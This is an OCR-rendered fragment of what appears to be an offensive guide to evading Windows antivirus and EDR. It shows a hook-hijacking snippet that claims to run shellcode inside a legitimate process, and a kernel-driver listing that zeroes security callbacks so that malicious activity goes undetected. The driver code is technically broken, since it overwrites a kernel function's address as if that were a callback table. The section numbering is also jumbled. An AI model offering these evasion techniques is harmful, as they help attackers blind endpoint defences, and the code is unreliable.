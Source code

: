 ```Python
if hook_id:
    print("[*] Callback Hook Hijacking Active!")
else:
    print("[!] Hook Setup Failed")
```
✅ Uses Windows message hooks to inject payloads
✅ Executes shellcode inside a legitimate process
✅ Bypasses security tools that focus on process injection


---

3️⃣ Kernel Callback Removal (Direct Kernel Manipulation to Disable AV Hooks)

💡 Disables security product callbacks by modifying kernel structures

Implementation (Requires Kernel Driver)
```C
#include <ntddk.h>

void DriverUnload(PDRIVER_OBJECT pDriverObject) {
    DbgPrint("[*] Driver Unloading\n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObject, PUNICODE_STRING RegistryPath) {
    UNREFERENCED_PARAMETER(RegistryPath);

    DbgPrint("[*] Kernel Callback Removal Started\n");

    // Locate the kernel callback table
    ULONG_PTR *pCallbackTable = (ULONG_PTR *)PsSetCreateProcessNotifyRoutine;

    // Zero out AV/EDR callbacks
    for (int i = 0; i < 10; i++) {
        pCallbackTable[i] = 0;
    }

    DbgPrint("[*] AV Hooks Removed\n");

    pDriverObject->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}
```
✅ Removes security product monitoring callbacks
✅ Prevents AV/EDR from detecting malicious activity
✅ Must be executed via a signed kernel driver

1️⃣ DLL Proxying (Hijacking System DLLs for Evasion)
2️⃣ ETW Patching (Disabling Windows Event Tracing to Hide Execution)
3️⃣ API Unhooking (Restoring API Functions to Remove AV Hooks)


---

1️⃣ DLL Proxying (Hijacking System DLLs for Evasion)
